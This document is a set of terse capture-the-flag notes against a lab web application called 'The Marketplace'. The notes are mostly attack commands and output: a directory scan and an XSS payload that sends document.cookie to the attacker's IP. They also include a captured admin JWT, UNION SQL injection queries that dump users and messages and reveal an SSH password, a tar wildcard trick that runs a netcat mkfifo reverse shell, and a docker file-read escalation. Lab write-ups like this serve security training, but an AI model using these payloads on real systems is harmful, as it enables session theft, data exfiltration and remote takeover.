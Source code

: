 json web token

created account doesnt let upload file

                                                                                   
┌──(kali㉿kali)-[~/Downloads]
└─$ dirsearch -r -u 10.10.215.167

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30
Wordlist size: 10877

Output File: /home/kali/.dirsearch/reports/10.10.215.167/_21-07-07_11-06-13.txt

Error Log: /home/kali/.dirsearch/logs/errors-21-07-07_11-06-13.log

Target: http://10.10.215.167/

[11:06:13] Starting: 
[11:06:19] 403 -  555B  - /.htaccess.bak1
[11:06:20] 403 -  555B  - /.ht_wsr.txt
[11:06:20] 403 -  555B  - /.htaccess.orig
[11:06:20] 403 -  555B  - /.htaccess_orig
[11:06:20] 403 -  555B  - /.htaccess_extra
[11:06:20] 403 -  555B  - /.htaccess.save
[11:06:20] 403 -  555B  - /.htaccess_sc
[11:06:20] 403 -  555B  - /.htaccessOLD2
[11:06:20] 403 -  555B  - /.htm
[11:06:20] 403 -  555B  - /.htaccessBAK
[11:06:20] 403 -  555B  - /.htaccessOLD
[11:06:20] 403 -  555B  - /.html
[11:06:20] 403 -  555B  - /.htpasswds
[11:06:20] 403 -  555B  - /.htaccess.sample
[11:06:20] 403 -  555B  - /.htpasswd_test
[11:06:20] 403 -  555B  - /.httr-oauth
[11:06:28] 403 -  392B  - /ADMIN
[11:06:28] 403 -  392B  - /Admin
[11:06:37] 403 -  392B  - /admin
[11:06:38] 403 -  555B  - /admin/.htaccess
[11:06:38] 403 -  392B  - /admin/     (Added to queue)
[11:06:38] 403 -  392B  - /admin/?/login
[11:06:44] 403 -  555B  - /administrator/.htaccess
[11:06:47] 403 -  555B  - /app/.htaccess
[11:07:02] 301 -  179B  - /images  ->  /images/
[11:07:06] 200 -  857B  - /login
[11:07:06] 200 -  857B  - /login/     (Added to queue)
[11:07:09] 302 -   28B  - /messages  ->  /login
[11:07:10] 302 -   28B  - /new  ->  /login
[11:07:18] 200 -   31B  - /robots.txt
[11:07:20] 200 -  667B  - /signup
[11:07:29] Starting: admin/
[11:07:34] 403 -  555B  - /admin/.ht_wsr.txt
[11:07:34] 403 -  555B  - /admin/.htaccess.bak1
[11:07:34] 403 -  555B  - /admin/.htaccess.orig
[11:07:34] 403 -  555B  - /admin/.htaccess.save
[11:07:34] 403 -  555B  - /admin/.htaccess_extra
[11:07:34] 403 -  555B  - /admin/.htaccess.sample
[11:07:34] 403 -  555B  - /admin/.htaccessOLD2
[11:07:34] 403 -  555B  - /admin/.htaccessBAK
[11:07:34] 403 -  555B  - /admin/.htaccess_orig
[11:07:34] 403 -  555B  - /admin/.htaccessOLD
[11:07:34] 403 -  555B  - /admin/.htaccess_sc
[11:07:34] 403 -  555B  - /admin/.html
[11:07:34] 403 -  555B  - /admin/.htm
[11:07:34] 403 -  555B  - /admin/.htpasswd_test
[11:07:34] 403 -  555B  - /admin/.htpasswds
[11:07:34] 403 -  555B  - /admin/.httr-oauth
[11:07:50] 403 -  555B  - /admin/admin/.htaccess
[11:07:58] 403 -  555B  - /admin/administrator/.htaccess
[11:08:01] 403 -  555B  - /admin/app/.htaccess
[11:08:52] Starting: login/
[11:08:58] 403 -  555B  - /login/.ht_wsr.txt
[11:08:58] 403 -  555B  - /login/.htaccess.bak1
[11:08:58] 403 -  555B  - /login/.htaccess.orig
[11:08:58] 403 -  555B  - /login/.htaccess.save
[11:08:58] 403 -  555B  - /login/.htaccess.sample
[11:08:58] 403 -  555B  - /login/.htaccess_extra
[11:08:58] 403 -  555B  - /login/.htaccess_sc
[11:08:58] 403 -  555B  - /login/.htaccess_orig
[11:08:58] 403 -  555B  - /login/.htaccessBAK
[11:08:58] 403 -  555B  - /login/.htm
[11:08:58] 403 -  555B  - /login/.htaccessOLD
[11:08:58] 403 -  555B  - /login/.html
[11:08:58] 403 -  555B  - /login/.htaccessOLD2
[11:08:58] 403 -  555B  - /login/.htpasswd_test
[11:08:58] 403 -  555B  - /login/.htpasswds
[11:08:58] 403 -  555B  - /login/.httr-oauth
[11:09:17] 403 -  555B  - /login/admin/.htaccess
[11:09:25] 403 -  555B  - /login/administrator/.htaccess
[11:09:28] 403 -  555B  - /login/app/.htaccess

Task Completed





cookie stealing 

create post, 



https://github.com/Xyl2k/Cookie-stealer

`<script>document.write("<img src='http://<ip>.fr/c.php?c="+document.cookie+"'></img>");</script>`

<script>new Image().src="http://10.6.65.43/?c="+document.cookie;</script>



python server on 80

report to admin

┌──(kali㉿kali)-[~/Downloads]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.215.167 - - [07/Jul/2021 11:42:34] "GET /?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjU2NzI1NTV9.kTGTJVd0H20RwBfX3fnmy89_Bj39D2rUsV74E-vNh4U HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
 
 machine expired , new json token
 ┌──(kali㉿kali)-[~/Downloads]
└─$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.6.65.43 - - [07/Jul/2021 12:52:25] "GET /?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoic3R1ZGVudCIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjI1Njc2NjgxfQ.Fn73n73xxpSIJlX6c0mWLCB1A-5OUkSuwijR8Zl-8e4 HTTP/1.1" 200 -
10.10.84.75 - - [07/Jul/2021 12:52:46] "GET /?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjU2NzY3NjV9.-Q_V4PNgUoPZ5wcIC9jRhTGK6DpN0RPCM_RM8SVP9L0 HTTP/1.1" 200 -


 
 {
  "userId": 2,
  "username": "michael",
  "admin": true,
  "iat": 1625672555
}



select * 
from user 
where id=1

union 


http://10.10.84.75/admin?user=0%20union%20select%201,table_name,3,4%20from%20information_schema.tables%20where%20table_schema%20=%20%27marketplace%27

my sql 
8.0.21
db = marketplace
table name = items   items,messages,users
column name = user 1

```go
SELECT `COLUMN_NAME` 
FROM `INFORMATION_SCHEMA`.`COLUMNS` 
WHERE `TABLE_SCHEMA`='yourdatabasename' 
    AND `TABLE_NAME`='yourtablename';
```

union select 1,2,3,4 from information_schema.columns where table_schema = 'marketplace' and table_name = 'items'

union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()

union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = 'users'

id,isAdministrator,password,username


union select 1,group_concat(username),3,4 from marketplace.users

jake,michael,student,system


union select 1,group_concat(password),3,4 from marketplace.users

nothing


union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = 'messages'

 id,is_read,message_content,user_from,user_to
 
 
 union select 1,group_concat(message_content),3,4 from marketplace.messages
 
 
 User Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,Thank you for your report. We have reviewed the listing and found nothing that violates our rules.,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,Thank you for your report. We have reviewed the listing and found nothing that violates our rules.,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,Thank you for your report. We have reviewed the listing an  
ID: 1  
Is administrator: true

jake,michael,student,system
jake:@b_ENXkGYUCAv3zJ





jake@the-marketplace:~$ cat /opt/backups/backup.sh
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *



echo "mkfifo /tmp/lhennp; nc 10.6.65.43 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

tar cf archive.tar *





```
CONTAINER_ID="$(docker run -d alpine)"  # or existing
TF=$(mktemp)
docker cp file_to_read $CONTAINER_ID:$TF
docker cp $CONTAINER_ID:$TF $TF
cat $TF
```